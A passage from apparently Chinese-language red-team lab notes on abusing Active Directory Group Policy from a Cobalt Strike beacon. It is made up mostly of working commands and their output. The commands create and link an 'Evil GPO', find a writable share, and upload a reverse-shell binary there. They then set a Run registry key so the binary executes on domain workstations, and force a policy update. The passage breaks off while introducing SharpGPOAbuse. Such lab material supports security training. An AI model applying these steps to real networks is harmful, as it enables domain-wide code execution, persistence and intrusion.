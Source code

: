 beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"

GpoId       : d9de5634-cc47-45b5-ae52-e7370e4a4d22
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Order       : 4
```

查找靶机可写入文件夹
```
beacon> powershell Find-DomainShare -CheckShareAccess

Name           Type Remark              ComputerName
----           ---- ------              ------------
software          0                     dc-2.dev.cyberbotic.io
```


把rev shell上传到靶机
```
beacon> cd \\dc-2\software
beacon> upload C:\Payloads\pivot.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 281kb    fil     03/10/2021 13:54:10   pivot.exe
```



写入GPO内容，执行我们上面上传的pivot.exe
```
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\pivot.exe" -Type ExpandString

DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\jking
Id               : d9de5634-cc47-45b5-ae52-e7370e4a4d22
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 5/26/2021 2:35:02 PM
ModificationTime : 5/26/2021 2:42:08 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 1, SysVol Version: 1
WmiFilter        : 
```

新写入的GPO可能要隔几个小时才会被刷新触发，需要马上触发执行下面命令(访问 WKSTN-2 控制台)
```
gpupdate /target:computer /force
```

# SharpGPOAbuse

[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)这个工具不可以创建GPO，但是可以编辑现有的GPO

下面命令编辑一条登录即可触发的GPO，并且添加了一个即时执行的定时任务

```
beacon> getuid
[*] You are DEV\bfarmer
